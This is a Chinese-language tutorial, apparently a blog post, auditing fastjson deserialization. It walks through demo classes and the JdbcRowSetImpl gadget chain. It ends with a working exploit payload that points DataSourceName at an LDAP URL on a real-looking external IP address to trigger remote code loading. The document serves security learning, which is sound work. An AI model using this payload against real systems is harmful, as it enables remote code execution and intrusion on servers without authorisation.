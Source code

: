 ![image](https://github.com/238469/liu.github.io/assets/126778520/b0c72bd9-a340-4f1e-9620-7f074f9a41d1)    # fastjson代码审计

为啥会出现命令执行

定义一个student类

fastjson和普通反序列化区别

```
//不需要实现serializable 
//变量不需要不是transient
//setter /getter 不是readObject   //变量有对应的setter或者是publich或者是满足条件的getter
//sink 反射/动态类加载
```

```java
package com.exp;

public class Student {

    private String name;
    private int age;

    public Student() {
        System.out.println(" method: Student() ");
    }

    public Student(String name , int age) {
        System.out.println(" method: Student(String name , int age) ");
        this.name = name;
        this.age = age;
    }

    public String getName() {
        System.out.println(" method: getName() ");
        return name;
    }

    public int getAge() {
        System.out.println(" method: getAge() ");
        return age;
    }

    public void setName(String name) {
        System.out.println(" method: setName() ");
        this.name = name;
    }

    public void setAge(int age) {
        System.out.println(" method setAge() ");
        this.age = age;
    }
}
```

```java
package com.exp;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.serializer.SerializerFeature;

public class demo {
    //fastjson提供了两个反序列化函数：parseObject和parse，我们通过示例程序来看一下fastjson的反序列化过程
    //toJSONString将对象转成字符串
    public static void main(String[] args) {
        Student student = new Student("moonsec" , 123);
        String jsonString1 = JSON.toJSONString(student);//是将对象转化为Json字符串
        System.out.println("转成json");
        System.out.println(jsonString1);
        System.out.println("转成json @type");
        String jsonString2 = JSON.toJSONString(student, SerializerFeature.WriteClassName); //自动加入 @type
        System.out.println(jsonString2);
        System.out.println("json转对象1");
        JSONObject jsonObject=JSON.parseObject(jsonString2);
        System.out.println(jsonObject);
        System.out.println("json转对象2");
        Student student1=JSON.parseObject(jsonString2,Student.class);
        System.out.println(student1);
        System.out.println("json转对象3");
        Object obj=JSON.parse(jsonString2);
        System.out.println(obj);

    }
}
```

![image](https://github.com/238469/liu.github.io/assets/126778520/51a83004-e75e-431a-8a51-5294c19ed5c0)


方式一调用了parseObject方法将json数据反序列化成java对象，并且在反序列化过程中会调用对象的setter和getter方法。

方式二调用了parseObject方法进行反序列化，并且指定了反序列化对象Student类，parseObject方法会将json数据反序列化成Student对象，并且在反序列化过程中调用了Student对象的setter方法。

方式三调用了parse方法将json数据反序列化成java对象，并且在反序列化时调用了对象的setter方法。

本来客户想简单利用 JSONObject jsonObject=JSON.parse（分析）Object(s);将普通字符串转成json对象而当用户传入{"@type":"com.exp.Student","age":123,"name":"moonsec"}就会反序列化并且调用set和get方法

**关于Feature.SupportNonPublicField参数**

以上这三种方式在进行反序列化时都会调用对象的构造方法创建对象，并且还会调用对象的setter方法，如果私有属性没有提供setter方法时，那么还会正确被反序列化成功吗？为了验证这个猜想，现在我们把Student对象的私有属性name的setter方法去掉。

从程序执行结果来看，私有属性name并没有被正确反序列化，也就是说fastjson默认情况下不会对私有属性进行反序列化。

如果需要将私有属性反序列化时，就可以调用parseObject方法指定Feature.SupportNonPublicField参数.

## 2 利用链分析

终点是这里执行了lookup函数然后这个getDatasourceName是可控的

![image](https://github.com/238469/liu.github.io/assets/126778520/7223ecd8-6261-4a7d-9a5a-e338def97b69)


由于fastjson会自动调用setter方法所以这个是可控的·

![image](https://github.com/238469/liu.github.io/assets/126778520/05818798-2c7e-4c36-affe-aeb7ed2d17dd)


现在我们需要去找谁调用了connet发现这个方法调用了并且会自动调用

![image](https://github.com/238469/liu.github.io/assets/126778520/02e2923f-31f4-4d5d-9965-32bc018f4166)


编写exp

```java
package com.exp;

import com.alibaba.fastjson.JSON;

public class demo3 {
    public static void main(String[] args) {

        //不需要实现serializable  序列化
        //变量不需要不是transient
        //setter /getter 不是readObject   //变量有对应的setter或者是publich或者是满足条件的getter
        //sink 反射/动态类加载
        String s="{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://101.34.84.157:8085/WVvfcmrg\",\"AutoCommit\":\"false\"}";
        JSON.parseObject(s);
    }
}

```

